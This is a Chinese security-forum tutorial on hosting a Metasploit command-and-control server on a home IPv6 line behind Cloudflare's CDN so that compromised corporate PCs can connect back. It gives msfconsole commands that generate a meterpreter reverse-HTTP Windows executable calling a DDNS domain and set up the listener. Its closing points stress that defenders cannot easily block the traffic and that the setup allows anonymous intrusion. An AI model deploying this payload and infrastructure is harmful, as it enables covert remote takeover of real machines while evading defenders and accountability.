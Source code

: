 

# 使用家用 IPv6 设备来上线接管电脑 - 先知社区

使用家用 IPv6 设备来上线接管电脑

* * *

# 前言介绍

我国也正在积极推广普及 IPv6 技术，个人家庭光猫基本上都是支持 IPv6 的，IPv6 我们可以理解为一个公网 IP，由于 IPv6 资源数量非常庞大，足够保障我们的家庭每个设备都有自己的公网 IPv6 地址，这一切预示着万物互联的时代即将到来，从理论角度来看，利用家用设备的 IPv6 地址来建立 C2 服务器也是可行的。

但是企业内网当中基本上是不可能有公网 IPv6 地址的，没有 IPv6 的话就无法访问到我们的 C2 服务器，这也是本文核心要展开说的地方，话不多说，直接看下文吧。

# 方案草图

整体方案实现其实不难，最主要的就是下面两个知识点：

1.  IPv6 DDNS 解析到指定域名
2.  借助 Coudflare 内部的 CDN 代理将 IPv6 流量转到 IPv4

[![](assets/1701606762-a34266601607ccb21c0bb8f293eeba3c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173014-16eb9a9c-7c87-1.png)

# 准备工作

总的来说就是下面两个步骤即可：

1.  安装好带 IPv6 地址的 Ubuntu 一台
2.  接入好 Cloudflare 的域名一个

## 检查 IPv6 网络

准备一个没有公网 IPv4 地址，但是存在公网 IPv6 地址的 Ubuntu 系统一个，正常家用的主机基本上是满足上述要求的：

[![](assets/1701606762-4edccf3093a326c218d97bfa476f8313.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173023-1c7e2e8e-7c87-1.png)

## 安装 Metasploit

MSF 是经典的 C2 工具，其他的 C2 工具基本上线原理仿造一下即可，我们先来手动来安装一下 Metasploit：

```plain
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```

[![](assets/1701606762-65ead7fdace32a9ece07b5862afec859.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173114-3ad27638-7c87-1.png)

## 创建 CF 的 API 令牌

为了保持权限最小化原则，我们这里只[创建](https://dash.cloudflare.com/profile/api-tokens)一个修改 itermux 域名的 DNS 权限 API 令牌：

[![](assets/1701606762-fa71b01bf78f7e1a41405f3b102e7bc9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173102-338d6176-7c87-1.png)

## 安装部署 DDNS-GO

DDNS-GO 的官方项目地址为：[https://github.com/jeessy2/ddns-go](https://github.com/jeessy2/ddns-go)

DDNS-GO 的作用是将公网地址解析到各大云厂商的域名上。下载好 DDNS-GO 参考官方文档安装一下即可：

```plain
sudo ./ddns-go -s install
```

接着访问服务器的 9876 端口即可打开 DDNS-GO 的配置页面，首先填写我们的 CF 的 API Token：

[![](assets/1701606762-a85e082edf505f5fbf95aba3589cecd4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173054-2ed4e41a-7c87-1.png)

最后配置一下要 IPv6 对应解析的域名即可：

[![](assets/1701606762-6b333f100e47526db59b244b8f2a84f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173513-c96716b0-7c87-1.png)

通过 DDNS-GO 的日志可以看到 msf.itermux.com 域名成功解析到了我们的公网 IPv6 地址：

[![](assets/1701606762-5f47a0eb10530a4771a33450f1779b9a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173125-418fcf3e-7c87-1.png)

## 配置 Cloudflare

因为当前默认域名解析的是 IPv6 地址，IPv4 设备是无法访问到我们的域名的，为此我们需要手动开启 CF 的代理，借助 CF 将域名转换成 IPv4 也可以访问的 IP 地址：

[![](assets/1701606762-bb3d5c974d2a246779a1b0a00b1039ca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173141-4b1818b8-7c87-1.png)

然后手动关闭一下 CF 的 SSL 加密：

[![](assets/1701606762-b54ffb86e4707f002fd8f88443eea5d6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173147-4eb264a6-7c87-1.png)

## 验证连通性

首先在服务器上借助 Python3 监听应该 IPv6 的 80 端口：

```plain
python3 -m http.server 80 --bind ::
```

然后直接访问我们的 msf.itermux.com 域名测试成功访问：

[![](assets/1701606762-20654615f1564b90661508cdfc868cf7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173203-583ebdf8-7c87-1.png)

# 操作细节

既然上述操作跑通的话，那么下面直接来尝试一下 MSF 上线吧。后续的操作就比较简单常规了，我们很快的来过一下：

## 生成 Payload

我们使用 meterpreter\_reverse\_http的 Payload，HOST 填写我们的 IPv6 地址 DDNS 的域名 msf.itermux.com，端口就填写 80 端口：

```plain
msf6 > use payload/windows/x64/meterpreter_reverse_http
msf6 > set LHOST msf.itermux.com
msf6 > set LPORT 80
```

[![](assets/1701606762-42755ac38800b21692178c6d62433b8b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173215-5ef8cc60-7c87-1.png)

然后直接在 msfconsole 控制台里面使用 generate 生成 Windows exe 木马文件：

```plain
msf6 payload(windows/x64/meterpreter_reverse_http) > generate -f exe -o shell.exe
[*] Writing 208384 bytes to shell.exe...
```

## 监听会话

这里监听的细节是 `set LHOST ::` 表示监听本地的 IPv6 地址：

```plain
msf6 > use exploits/multi/handler
msf6 > set payload windows/x64/meterpreter_reverse_http
msf6 > set LHOST ::
msf6 > set LPORT 80
```

[![](assets/1701606762-4748476a9d694288e7247b7c33939b9b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173240-6e11a280-7c87-1.png)

## 上线效果

运行 shell.exe 后既上线成功，通过 netstat 命令查看，可以看到多个上线的会话连接，这些外连 IP 均为 Cloudflare 的 CDN IP，蓝方防守的话封是封不完，而且不敢封的，因为国内很多大型网站可能也用的是 Cloudflare。

[![](assets/1701606762-cc526aefba97ae4f0fd02db0ea3b3a30.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173231-68e6a030-7c87-1.png)

MSF 的上线记录效果如下，可以看到 CF 的 CDN IPv6 服务器和本地的 IPv6 交互的记录：

[![](assets/1701606762-f3fcdc9d786e94c34c6d051f29f74398.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106173250-743ab7b4-7c87-1.png)

# 方案总结

1.  以后上线别人的话，不用买云服务器了，连接 SIM 热点或者直接使用家用光猫有 IPv6 地址就行
2.  IPv6 还在普及中，监管方面也比较弱，且 IPv6 也是动态的，很灵活
3.  Cloudflare 的 CDN 外连 IP 蓝方不敢轻易封禁，因为国内很多大厂也用的 Cloudflare 的 CDN
4.  Cloudflare 的 CDN 是多种多样的，封一个两个也封不完的
5.  Cloudflare 的域名接入也不需要实名操作，理论上是可以做到完全匿名的渗透上线的
